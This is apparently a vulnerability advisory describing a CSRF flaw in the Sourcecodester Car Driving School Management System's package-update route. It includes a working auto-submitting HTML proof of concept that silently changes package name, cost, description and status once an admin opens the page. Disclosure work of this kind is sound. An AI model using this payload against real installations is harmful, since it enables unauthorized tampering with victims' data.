






### CSRF vulnerability exists in Sourcecodester Online Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route：/cdsms/classes/Master.php?f=save_package

injection parameter:$_POST['description']、$_POST['name']、$_POST['cost']、$_POST['status'] and so on

#### 1.Vulnerability analysis

As shown in the figure below, in **admin/packages/manag_package.php**, after the front-end sends the modified price data packet through the form, there is a lack of token verification mechanism, and the back-end **Master.php** is directly spliced into the SQL update statement, resulting in a CSRF vulnerability. We can change client user data by constructing malicious request packets.





#### 2.Vulnerability verification and exploit

First, for the convenience of testing, you need to manually create a test target, name it Test, and capture the package to obtain the id.





Construct the following POC. Note that the id value in the POC needs to be changed to the id obtained in the previous step. Then save it as an HTML file, and the vulnerability can be triggered after the admin user clicks it.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/cdsms/classes/Master.php?f=save_package" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="id" value="117" />
      <input type="hidden" name="name" value="Test" />
      <input type="hidden" name="description" value="csrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrf" />
      <input type="hidden" name="training&#95;duration" value="123" />
      <input type="hidden" name="cost" value="120" />
      <input type="hidden" name="status" value="0" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Click to view the properties of the package has been maliciously modified.



